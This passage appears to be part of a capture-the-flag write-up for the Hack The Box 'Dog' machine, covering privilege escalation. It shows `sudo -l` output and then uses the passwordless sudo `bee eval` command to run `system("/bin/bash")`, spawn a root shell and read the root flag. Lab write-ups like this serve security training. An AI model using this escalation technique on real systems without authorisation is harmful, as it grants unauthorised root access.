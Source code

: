 ## Privilege escalation

Executing `sudo -l` we found that this user can execute `bee` utility as sudo without password

```bash
johncusack@dog:~$ sudo -l
sudo -l
[sudo] password for johncusack: ...

Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
johncusack@dog:~$ /usr/local/bin/bee
/usr/local/bin/bee
```

Checking `bee` options there's one that allows us to execute arbitrary PHP code.

![alt text](../assets/img/posts/2025-08-25-htb-writeup-dog/image-6.png)

Using `eval` command we can execute PHP code to spawn a root shell via /bin/bash, sucessfully getting `root` user and its `root.txt` file

```bash
johncusack@dog:/var/www/html/modules/shell$ sudo bee eval 'system("/bin/bash");'
[sudo] password for johncusack: <REDACTED>

root@dog:/var/www/html# cat /root/root.txt
cat /root/root.txt
30<REDACTED>
```
